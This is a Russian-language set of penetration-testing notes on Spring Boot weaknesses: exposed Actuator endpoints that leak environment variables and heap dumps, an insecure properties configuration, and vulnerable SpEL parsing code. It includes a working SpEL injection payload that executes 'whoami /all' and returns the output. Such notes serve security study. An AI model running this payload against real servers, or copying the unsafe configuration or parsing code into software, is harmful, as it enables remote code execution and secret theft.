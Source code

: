 # Spring Boot

Уязвимости в Spring Boot [https://github.com/pyn3rd/Spring-Boot-Vulnerability](https://github.com/pyn3rd/Spring-Boot-Vulnerability)

## Spring Boot Actuator

Spring Boot Actuator — на сколько понял, это инструмент/фреймворк для отслеживания состояния приложения. Вот простой  пример уязвимого приложения: [https://github.com/veracode-research/actuator-testbed](https://github.com/veracode-research/actuator-testbed)

Статья к этому приложению: [https://www.veracode.com/blog/research/exploiting-spring-boot-actuators](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

Actuator API: [https://docs.spring.io/spring-boot/docs/2.0.x/actuator-api/html/](https://docs.spring.io/spring-boot/docs/2.0.x/actuator-api/html/)

Из env можем достать env'ы приложения. Из heapdump скачиваем дамп процесса и с помощью VisualVM ищем секреты.

В зависимости от данных, за это могут накинуть порядочно: [https://hackerone.com/reports/1022048](https://hackerone.com/reports/1022048)

В общем, если в actuator включено все, конечно, это можно запавнить, но по умолчанию это все отключено. Пример небезопасной конфигурации в `application.properties`:

```
management.endpoint.env.post.enabled=true
management.endpoint.restart.enabled=true
endpoints.sensitive=true
endpoints.actuator.enabled=true
management.security.enabled=false 
management.endpoints.web.exposure.include=*
```

## Spring Expression Language (SpEL)

The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime.

Доступ к этой функциональности приводит к удаленному исполнению кода. Пример уязвимого кода:

```java
@Data
@Builder
class MyClass {
    private String inp;
    
    boolean vulnFunction(Object object) {
        return (boolean)new SpelExpressionParser().parseExpression(inp).getValue(new StandardEvaluationContext(object));
    }
}
```

Пример выполнения `whoami /all`

```
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("var pb = new java.lang.ProcessBuilder['(java.lang.String[])']([ 'cmd', '/c', 'whoami /all', ]); pb.redirectErrorStream(true); var p = pb.start(); var stdout = new java.io.BufferedReader( new java.io.InputStreamReader(p.getInputStream())); var s = '_'; while ((line = stdout.readLine()) != null) { s += line + '\n'; } s;").getBytes(),T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream())==0
```
